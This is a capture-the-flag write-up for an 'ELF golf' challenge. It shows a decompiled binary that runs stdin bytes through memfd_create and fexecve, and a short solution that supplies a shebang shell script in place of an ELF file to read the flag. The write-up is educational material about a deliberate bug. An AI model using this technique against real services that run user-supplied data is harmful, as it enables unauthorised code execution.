 
# Provided Files
- chal
- Dockerfile

### chal decompilation
```c noheader
int32_t main(int32_t argc, char** argv, char** envp)
    int32_t var_4c = argc
    void* fsbase
    int64_t rax = *(fsbase + 0x28)
    setbuf(fp: stdout, buf: nullptr)
    setbuf(fp: stderr, buf: nullptr)
    puts(str: "I'm sure you all enjoy doing she…")
    puts(str: "But have you ever tried ELF golf…")
    puts(str: "Have fun!")
    int32_t rax_1 = memfd_create("golf", 0)
    if (rax_1 s< 0) {
        perror(s: "failed to execute fd = memfd_cre…")
        exit(status: 1)
        noreturn
    }
    void var_38
    int32_t rax_2 = read(fd: 0, buf: &var_38, nbytes: 0x20)
    if (rax_2 s< 0) {
        perror(s: "failed to execute ok = read(0, b…")
        exit(status: 1)
        noreturn
    }
    printf(format: "read %d bytes from stdin\n", zx.q(rax_2))
    int32_t rax_7 = write(fd: rax_1, buf: &var_38, nbytes: sx.q(rax_2))
    if (rax_7 s< 0) {
        perror(s: "failed to execute ok = write(fd,…")
        exit(status: 1)
        noreturn
    }
    printf(format: "wrote %d bytes to file\n", zx.q(rax_7))
    if (fexecve(fd: rax_1, argv, envp) s< 0) {
        perror(s: "failed to execute fexecve(fd, ar…")
        exit(status: 1)
        noreturn
    }
    *(fsbase + 0x28)
    if (rax == *(fsbase + 0x28)) {
        return 0
    }
    __stack_chk_fail()
    noreturn
```

# Intended
In the decompilation, the binary is reading and executing a file using
`memfd_create` and `fexecve`. This is a method of executing binaries without making
a file on the filesystem, it exists only in memory. The challenge only allows
binaries of maxiumum size of 32 and making a valid ELF this small should be
impossible. The problem is that remote does not validate that the given file is
actually an ELF file (it should start with at least `b'\x7FELF'`) and you can put a
shebang instead to get a shell.

## Solution
```sh noheader
#!/bin/sh

cat flag.txt
```

# Unintendeds
No unintendeds to see here!
